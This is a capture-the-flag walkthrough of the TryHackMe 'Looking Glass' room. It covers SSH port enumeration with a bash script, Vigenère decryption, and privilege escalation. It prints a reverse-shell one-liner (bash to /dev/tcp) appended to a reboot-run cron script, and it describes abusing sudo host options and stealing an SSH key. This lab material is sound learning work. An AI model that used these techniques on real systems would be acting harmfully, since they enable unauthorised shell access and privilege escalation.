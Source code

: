 # [THM-WALKTHROUGH] Looking Glass

## *$ First Step : Enumeration*
I started to enumerate open ports with `nmap` but I was surprised seeing almost every port between 9000 and 13999 were running SSH. 

![image](https://user-images.githubusercontent.com/52162856/215579160-90b41c6d-c713-4b3a-861f-8b9cad7eee5e.png)

Then I started to process what to do and I came up with an idea. I wanted to create a script to see what they all give me as output but I firstly tried to make a connection to see what happens but I got this error. After few googlings I saw something that worked and solved the error.

![image](https://user-images.githubusercontent.com/52162856/215582546-430d4f5d-3558-48c2-b782-559bee84cc7b.png)

![image](https://user-images.githubusercontent.com/52162856/215582880-52d2d1b8-59cf-4109-b046-e79688917d21.png)

Added `HostkeyAlgorithms +ssh-rsa` in the file. And bingo ! 

![image](https://user-images.githubusercontent.com/52162856/215583146-d40b2d6d-7a5d-4c1d-ab5f-f73b02400775.png)

I tried with `alice` user because that seemed pretty adapted on the theme of the machine. The connection closed immediatly but something got me intrgued ... Why does it answer me 'Lower' ? So I wanted to know more about that and I tried with the highest port.

![image](https://user-images.githubusercontent.com/52162856/215583844-abca19d3-145b-46ea-a612-8d5a511da78f.png)

Now I see what to exploit in my script to guess what is the good port to look into. Let's it search for a while.

![image](https://user-images.githubusercontent.com/52162856/215592724-740c792d-adb6-455e-8ccb-c3199f0a4723.png)

This is the content of the script : 
```bash
#!/bin/bash

# Get only port numbers
ssh_port=`cat nmap_long.txt | grep unknown | cut -d '/' -f 1`
#echo $ssh_port

for i in $ssh_port 
do
                # -o permit to pass any option here : accept any new connection
                tmp=`ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=accept-new' -p $i alicet@10.10.122.174`
                echo $i
                echo $tmp | grep -vE 'Lower|Higher'
done
```
In the grep options are `-v` which takes anything that doesn't contain a string and `-E` which allows to pass regex in parameters and here it has to not contain "Lower" or "Higher".

It stopped at 10428 and by the way I constructed the script I tried 10429 

![image](https://user-images.githubusercontent.com/52162856/215596689-dcdf6313-00ee-4834-a8d2-cad174028b3d.png)

Nice ! I found it ... after a HUGE time !

Firstly it looked like caesar cipher so I tried to know the letter frequency and because I know The Jabberwocky is written in english I could guess the key shift for
decrypting the poem

![image](https://user-images.githubusercontent.com/52162856/215598104-91ea0c62-c148-4e3c-baf8-e0f5ea2826e1.png)

We can see the most used letters are 'l' and 't' but the problem is there is only one most used letter in english so that's not the good way to see. Then I spotted the little single quote so I guess it was vigenere cipher so I tried to solve it while incrementing the keylengh according to the response

![image](https://user-images.githubusercontent.com/52162856/215600971-955893fa-357c-4aee-be0f-a5177f764841.png)

It seems that this response have the best score and it also has the first word of the original poem in the good place so it looks like the good anwser. Let's try it.

![image](https://user-images.githubusercontent.com/52162856/215600865-524782f3-ce9e-4252-b6a9-78bedb312880.png)

I firstly tried to put the key into the input asked but without success. Then I tried to put that key on the solver to get the full text to see if something was hidden inside and I hit right. The end of the poem is the secret to enter.

![Capture](https://user-images.githubusercontent.com/52162856/215602763-935daf0c-a0a8-4ba4-b959-c9409434162a.PNG)

There it is !

![Capture](https://user-images.githubusercontent.com/52162856/215603085-79ad618f-f681-4cce-ba3c-64df9e20537a.PNG)

There is the first flag ! Mybe a little trick will be necessary ;)

![Capture](https://user-images.githubusercontent.com/52162856/215605001-ca88ef9f-1214-476d-9a65-7544b90cfcf4.PNG)


## *$ Second Step : Privilege Escalation*

![image](https://user-images.githubusercontent.com/52162856/215605538-22adf120-d9bf-4325-b4c7-1d37f908ea0a.png)

We can see here that there is a possibility to reboot the system as root but no payload is about that on GTFOBins. We got no more chance with capbilities and sticky bits enumeration ... Neither to see other users directories

![image](https://user-images.githubusercontent.com/52162856/215606484-694c84e8-e2b8-4687-8844-7236f1797039.png)

Let's try to use an automated tool : `LinPEAS.sh`, a tool used to search automatically vectors of Linux PrivEsc.

Did not be able to resolve github.com so I put it on my machine and download it with wget.

![image](https://user-images.githubusercontent.com/52162856/215608373-dbd365fd-de3d-4765-980a-75a3fad460d7.png)

I seen something that seems interesting ...

![image](https://user-images.githubusercontent.com/52162856/215611043-83f96f32-8e35-4d8c-8f3e-a2f122a29feb.png)

Back to reality !
![image](https://user-images.githubusercontent.com/52162856/215610472-14f861e0-87b3-4634-96ab-b1e09490cb4c.png)

It seemed that the crontab has a SGID, like we saw it in the `sudo -l` command. Let's take a look
![image](https://user-images.githubusercontent.com/52162856/215611279-c696c517-4c73-4c2b-b2b5-b62bcb6ef797.png)

The script we saw in the working directory runs at reboot... Maybe a chance to get a shell ?

![image](https://user-images.githubusercontent.com/52162856/215611542-25e51c06-054f-4015-a207-1529777798a2.png)

I did `echo "bash -i >& /dev/tcp/10.18.70.69/53 0>&1" >> twasBrillig.sh` to put the reverse shell in the script and it worked after a `sudo reboot` and starting a nc on my machine.
We are now Tweedledum ! 
![image](https://user-images.githubusercontent.com/52162856/215614807-c84eaf46-d26f-4376-8a5c-b0766e5ef0af.png)

Let's see what he has.

![image](https://user-images.githubusercontent.com/52162856/215615844-be9cc868-4e93-4f43-b803-75b81d3ec9b2.png)

Maybe we can try to crack it. The `hash-identifier` says that is SHA-256.

![image](https://user-images.githubusercontent.com/52162856/215616417-e481dc7b-81cd-46d0-975d-ae1734407591.png)

Seems to be interesting but I don't get it yet. Tried an other tool to seem with there was only 7/8 that was founded and I saw that : 

![image](https://user-images.githubusercontent.com/52162856/215617408-aec8f892-1579-4803-b0dd-35bb04a2c170.png)

The last one is not found too. Maybe it's not even a SHA256.

We can execute a shell as his twin Tweedledee but that seemed to be useless:

![image](https://user-images.githubusercontent.com/52162856/215615279-5d3d1379-65c5-4bd7-807a-2dca79c437d6.png)

I tried those but without success and I found it was HEX. 

![image](https://user-images.githubusercontent.com/52162856/215617742-62393f65-841c-4841-9c51-6e494533d780.png)

![Capture](https://user-images.githubusercontent.com/52162856/215618057-99f693a0-9ba4-412d-8887-b96ee71381b4.PNG)

We have a password ! That's cool ... but for what ? Let's go back to the shell.

To take a look at anything I tried to enumerate an other time users, and then I found out that a user has the same username as the name of the file we just cracked.
So let's try.

![image](https://user-images.githubusercontent.com/52162856/215619521-2ecc6580-aac8-4cc4-95ce-86086016ee85.png)

It seems that even if the working directory of alice can't be listed, we still can go in and have access to the `.ssh` directory.

![image](https://user-images.githubusercontent.com/52162856/215620341-a781032f-871e-4a61-bcb6-1704345a465f.png)

Did some netact and there it is on my machine.

![image](https://user-images.githubusercontent.com/52162856/215620802-1a19eb85-b930-4a83-a8d2-8def4b840eba.png)

We are now alice ! 

![image](https://user-images.githubusercontent.com/52162856/215621224-a36f080a-b8f6-40bd-adf8-607e6f6a9cc3.png)

With a bit of search I've been able to find the there is a very nteresting thing in the sudoers.d directory.
![image](https://user-images.githubusercontent.com/52162856/215622765-7d61309d-d386-4019-a90a-9c4c38d54c94.png)

I had to see on the help menu of `sudo` how to sudo with on a host and this is `--host` 

![image](https://user-images.githubusercontent.com/52162856/215623262-d97764be-bff1-4b4c-9e70-3c0c510ad034.png)

Same trick as the first one !
![Capture](https://user-images.githubusercontent.com/52162856/215623690-d17ae40b-93ea-4087-b774-7764127074f2.PNG)

FINALLY !! I never thought I will be able to root this machine !! It was reaaally long ! but it was in fact so fun. I'm happy to ended it and happy that is was so much difficult than the first of the serie. 
